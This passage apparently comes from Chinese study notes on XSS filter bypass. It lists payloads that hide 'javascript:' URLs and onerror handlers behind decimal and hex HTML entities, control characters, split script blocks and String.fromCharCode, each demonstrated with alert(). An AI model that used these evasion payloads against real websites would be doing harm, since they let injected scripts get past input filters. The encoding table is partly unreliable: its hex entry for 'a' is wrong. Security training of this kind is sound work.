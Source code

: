 #### (7)对标签属性值进行转码

* 对标签值使用**十进制**或**十六进制**表示

  ```html
  1. 转码
      "><a href="javascript:alert(/xss/)">click me</a><" => 
      "><a href="j&#97;v&#x61;script:alert(/xss/)">click me</a><"
      "><a href="&#1;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">click me</a><"
  2. 进阶变形
       "><img src="#" onerror=alert(1)></img><" => 
       "><img src="#" onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;></img><"	
          or
      "><img src="#" &#111;&#110;&#101;&#114;&#114;&#111;&#114;&#61;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;></img><"
  ```

  | 符号            | ASCII码 | 十进制   | 十六进制 |
  | --------------- | ------- | -------- | -------- |
  | a               | 97      | `&#97;`  | `&#61;`  |
  | e               | 101     | `&#101;` | `&#x65;` |
  | Tab(水平制表符) | 9       | `&#9;`   |          |
  | 换行            | 10      | `&#10;`  |          |
  | 回车            | 13      | `&#13;`  |          |
  | SOH             | 1       | `&#1;`   |          |
  | STX             | 2       | `&#2;`   |          |

#### (8)拆分跨站

* 当应用程序**没有过滤**关键字符，却对**输入字符长度有限制**时，可以使用**拆分法**

  ```html
  <script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script>
  ```

#### (9)HTML编码

##### a. 十进制

* 标识符：``&# + Ascii码``

  ```html
  <a href="javascript:alert(/xss/)">click me</a>	=> 
  1. 
  	<a href="j&#97;v&#97;script:alert(/xss/)">click me</a>
  2.
  	 
      <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
          or
      <img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>
      
  ```
